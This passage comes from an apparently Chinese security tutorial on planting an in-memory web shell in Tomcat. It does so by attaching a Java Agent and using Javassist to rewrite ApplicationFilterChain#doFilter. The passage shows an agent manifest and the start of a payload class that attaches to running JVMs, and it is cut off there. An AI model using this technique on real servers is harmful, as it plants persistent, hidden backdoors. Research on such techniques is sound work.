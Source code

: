 ```java
        } else {
            return classfileBuffer;
        }
    }
}
```

MANIFEST.MF

```ini
Manifest-Version: 1.0
Agent-Class: com.example.CrackDemo
Can-Redefine-Classes: true
Can-Retransform-Classes: true

```

![image-20230104171332912](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301041713158.png)

## 利用 Java Agent 注入内存马

根据 Java Agent 的实现原理我们很容易就能把它应用到内存马这个方面

实现的思路就是找一个比较通用的类,  保证每一次 request 请求都能调用到它的某一个方法, 然后利用 Javaassist 插入恶意 Java 代码

这里先以网上讨论比较多的 `org.apache.catalina.core.ApplicationFilterChain#doFilter` 为例, 但实际上使用这个方法会存在一些问题

![image-20230104190219022](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301041902209.png)

ApplicationFilterChain 这个类其实在之前研究 tomcat filter 型内存马的时候就遇到过, 它管理着一组 filter 的调用

从图中可以看出来它的 doFilter 会调用 internalDoFilter, 后者依次取出各种 filter 并链式调用其 doFilter 方法

网上讨论比较多的思路就是利用 Javaassist 在 `ApplicationFilterChain#doFilter` 开头插入恶意 Java 代码

payload 如下

```java
package com.example;

import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.io.File;
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;
import java.util.List;

public class TomcatAgent {
    public static final String CLASSNAME = "org.apache.catalina.core.ApplicationFilterChain";
    public static void agentmain(String args, Instrumentation inst) throws Exception{
        for (Class clazz : inst.getAllLoadedClasses()){
            if (clazz.getName().equals(CLASSNAME)) {
                inst.addTransformer(new TomcatTransformer(), true);
                inst.retransformClasses(clazz);
            }
        }
    }

    public static void main(String[] args) throws Exception{
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
```